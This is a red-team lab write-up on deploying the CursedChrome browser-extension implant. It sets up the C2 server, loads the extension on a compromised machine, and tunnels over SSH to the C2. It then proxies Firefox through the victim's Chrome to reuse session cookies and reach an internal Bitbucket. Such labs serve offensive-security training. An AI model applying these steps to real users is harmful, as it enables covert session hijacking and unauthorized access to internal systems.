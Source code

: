 # Man-in-the-Browser via Chrome Extension

## Overview

This is a quick lab to familiarize with a [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) Chrome extension, which at a high level works in the following way:

1. CursedChrome extension is added to Chrome on a compromised computer;
2. Compromised computer's Chrome connects back to an attacker controlled CursedChrome C2 server. Comromised computer's Chrome now acts as a proxy into the compromised network;
3. Attacker can now proxy web requests through the compromised computer's Chrome and reach any internal web application that the compromised user/computer can access.

The beauty of this technique is in the fact that the attacker's web requests leverage cookies stored in the compromised Chrome browser, which means that if a compromised user is logged on to some web application the attacker is interested in, the attacker no longer requires to authenticate to that application in order to access it as their HTTP request will re-use the existing cookies from the compromised Chrome and will be let in without being asked to provide credentials.

The extension [author](https://github.com/mandatoryprogrammer) visualizes the whole process like so:

![Source: https://github.com/mandatoryprogrammer/CursedChrome](../../.gitbook/assets/image%20%281066%29.png)

## Environment

Below is a list of systems involved in this lab:

* 18.130.61.92 - CursedChrome C2 server;
* 10.0.0.7 - attacker computer `WS01`;
* x.x.x.x - compromised computer in some other network outside the `WS01` computer's network.

## Setup

### CursedChrome C2 Server

On the CursedChrome C2 server, pull the CusedChrome git repo, enter it and spin up the CursedChrome server using `docker-compose` with the following commands:

```bash
git clone https://github.com/mandatoryprogrammer/CursedChrome.git /opt/
cd /opt/CursedChrome
docker-compose up -d redis db
docker-compose up cursedchrome
```

After running the above `docker-compose`, you should see the below screen:

![CursedChrome C2 server installed and configured](../../.gitbook/assets/image%20%281068%29.png)

Save the username and password for later as these will be required when connecting to the CursedChrome C2 web console:

```text
USERNAME: admin
PASSWORD: 9iax0t2gpbd9skqf0p2z8ry53k9s144x
```

Additionally, note that the CursedChrome's web console is listening on `127.0.0.1:8118` and HTTP proxy on `127.0.0.1:8080` - we will need these later, when setting up local SSH tunnels, so that we can access these services from the attacking machine `WS01`.

### Compromised Computer with CursedChrome Implant

On a compromised computer, we need to install the CursedChrome implant. 

It's up to you how you will do it, but for the demo purposes, I simply enabled `Developer mode` and clicked `Load unpacked` and pointed it to the `.\extension` folder from the CursedChrome's repo. The extension is now installed:

![CursedChrome installed in to Chrome](../../.gitbook/assets/image%20%281073%29.png)

### Attacker

On the attacker machine, let's set up a couple of local SSH tunnels.

#### SSH Tunnel for CursedChrome Web Console

In order to access the CursedChrome's C2 web console via `http://localhost:1111`, we need the following SSH tunnel to the CursedChrome's C2 server:

```text
ssh ubuntu@18.130.61.92 -L1111:localhost:8118 -f -N
```

#### SSH Tunnel for CursedChrome HTTP Proxy

In order to proxy our HTTP traffic through the CursedChrome's C2 web proxy, using FoxyProxy, we need the following tunnel:

```text
ssh ubuntu@18.130.61.92 -L2222:localhost:8080 -f -N
```

Once we have the tunnels setup, we can try accesing the web console by navigating to `http://localhost:1111` and if everything works, you should see a login panel:

![CursedChrome web console.](../../.gitbook/assets/image%20%281071%29.png)

Enter the admin credentials you got after setting up the CursedChrome server using `docker-compose` and you should now be logged on to the panel, where you will see a bot / compromised computer's CursedChrome extension calling back to the CursedChrome C2:

![CursedChrome web panel, logged in.](../../.gitbook/assets/image%20%281067%29.png)

Note the username and password of the bot as you will need it when configuring FoxyProxy.

#### Installing CursedChrome CA Certificate to FireFox

{% hint style="danger" %}
**Important**  
Do not forget to export the Proxy CA certificate \(see the big download button below the connected bots panel\) and install it to FireFox as this is required for the technique to work.
{% endhint %}

![Installing CursedChrome CA Certificate to FireFox](../../.gitbook/assets/install-cert.gif)

#### Configuring FireFox Extension FoxyProxy

Now we're ready to setup the FoxyProxy \(FireFox extension\). 

Proxy IP and port should be `127.0.0.1:2222` \(remember, we set up a local SSH tunnel for this earlier\) and username/password should be those seen in the "Connected bots" panel in the CursedChrome's C2 web console:

![ProxyFoxy configured to proxy traffic through the infected Chrome on a compromised computer](../../.gitbook/assets/image%20%281070%29.png)

Configure FireFox to use the FoxyProxy you just set up and you are ready to access some internal web application on a compromised computer's network, that otherwise would not be accessible to you.

## Moment of Truth

With all the setup completed, the below image shows how I'm able to access a Bitbucket on behalf of a compromised user `Mantvydas` without knowing their credentials on a network that is outside of the attacking VM `WS01`:

![Accessing Bitbucket via a compromised computer with CursedChrome extension installed on it](../../.gitbook/assets/image%20%281072%29.png)

## References

{% embed url="https://github.com/mandatoryprogrammer/CursedChrome" %}

